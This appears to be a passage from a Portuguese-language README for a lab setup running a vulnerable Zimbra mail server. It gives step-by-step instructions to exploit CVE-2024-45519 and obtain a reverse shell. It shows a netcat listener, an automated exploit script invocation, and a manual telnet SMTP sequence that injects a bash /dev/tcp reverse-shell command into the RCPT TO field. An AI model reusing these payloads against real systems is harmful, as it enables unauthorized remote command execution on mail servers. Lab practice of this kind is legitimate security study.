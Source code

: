 ### **Tempo de Inicialização**
- **Container**: ~2-3 minutos
- **Zimbra**: ~30-45 minutos
- **Serviços**: ~5-10 minutos após Zimbra

## 🎯 Exploração e Obtenção de Shell Reverso

### **Método 1: Exploit Automatizado (Recomendado)**

#### **1.1 Preparar Listener**
```bash
# Abrir terminal e escutar conexão reversa
nc -lvp 4444
```

#### **1.2 Executar Exploit**
```bash
# Navegar para diretório do exploit
cd CVE-2024-45519

# Executar exploit (substitua IP_EXTERNO pelo seu IP)
python3 exploit.py 127.0.0.1 -p 25 -lh IP_EXTERNO -lp 4444
```

#### **1.3 Exemplo Completo**
```bash
# Terminal 1: Listener
nc -lvp 4444

# Terminal 2: Exploit
python3 exploit.py 127.0.0.1 -p 25 -lh 192.168.1.100 -lp 4444
```

### **Método 2: Exploração Manual via Telnet**

#### **2.1 Conectar ao SMTP**
```bash
telnet 127.0.0.1 25
```

#### **2.2 Sequência de Comandos**
```bash
EHLO localhost
MAIL FROM: <atacante@evil.com>
RCPT TO: <"aabbb$(/bin/bash -i >& /dev/tcp/IP_EXTERNO/PORTA 0>&1)@test.com">
DATA
Test message
.
QUIT
```

#### **2.3 Exemplo com Comando Simples**
```bash
EHLO localhost
MAIL FROM: <test@test.com>
RCPT TO: <"aabbb$(id)@test.com">
DATA
Test
.
QUIT
```
